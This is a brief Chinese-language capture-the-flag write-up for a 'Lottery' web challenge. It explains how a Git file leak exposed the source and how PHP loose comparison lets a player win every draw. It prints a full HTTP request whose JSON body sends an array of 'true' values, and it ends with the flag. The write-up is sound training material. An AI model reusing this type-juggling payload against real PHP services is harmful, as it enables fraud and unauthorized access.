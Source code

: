 # Lottery

> Git文件泄露+弱类型比较

## 思路分析

> Git文件泄露+弱类型比较,通过git文件泄露或者下载附件获取源代码,分析代码得知是要输入一串长度为7的字符,服务端会随机生成7个数字,这二个一次对比,相同的次数越多,奖励越多,当账户上的钱大于9990000时就能直接购买flag了.一看就是考察的php弱类型比较.传入一个数组,数组每个元素是true即可,只要服务端生成的数字不全是0则会获取奖励,奖励达到要求后购买flag.

## payload

```
POST /api.php HTTP/1.1
Host: 61.147.171.105:54275
Content-Length: 63
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Content-Type: application/json
Origin: http://61.147.171.105:54275
Referer: http://61.147.171.105:54275/buy.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lb8pf8pkg1drfe7il17dkrh374
Connection: close

{"action":"buy","numbers":[true,true,true,true,true,true,true]}
```

## flag

> cyberpeace{794ac976a443f8743f6118ca179fa112}
